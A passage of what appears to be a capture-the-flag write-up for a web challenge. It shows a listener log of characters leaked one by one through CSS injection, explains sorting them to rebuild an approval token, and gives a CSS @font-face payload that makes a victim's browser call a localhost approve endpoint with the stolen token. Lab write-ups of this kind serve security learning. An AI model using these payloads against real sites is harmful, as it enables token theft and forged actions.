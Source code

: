 this function is generate token in unique and after this is sort is ascii order.

That mean when we can grep all request parameter and sorting by ascii order and get the `approvalToken` as shown below

```
94.237.58.173 - - [03/Sep/2024 15:12:52] "GET /?q=8 HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:52] "GET /?q=7 HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:52] "GET /?q=6 HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:52] "GET /?q=5 HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:52] "GET /?q=4 HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:52] "GET /?q=2 HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=Y HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=X HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=R HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=P HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=Q HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=O HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=M HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=J HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=G HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=I HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=F HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=B HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=y HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=u HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=x HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:53] "GET /?q=r HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:54] "GET /?q=E HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:54] "GET /?q=p HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:54] "GET /?q=o HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:54] "GET /?q=k HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:54] "GET /?q=l HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:54] "GET /?q=i HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:54] "GET /?q=h HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:54] "GET /?q=f HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:54] "GET /?q=c HTTP/1.1" 200 -
94.237.58.173 - - [03/Sep/2024 15:12:54] "GET /?q=1 HTTP/1.1" 200 -

$ python3
>> ''.join(sorted("CHARECTOR"))
```

And then we need to approve the card but this function is allowed from localhost only

So, I change one of the css payload to make request to localhost/

```css
@font-face {
  font-family: "poc";
  src: url(http://127.0.0.1/approve/1/TOKEN_THAT_I_GET);
  unicode-range: U+0039;
}
```
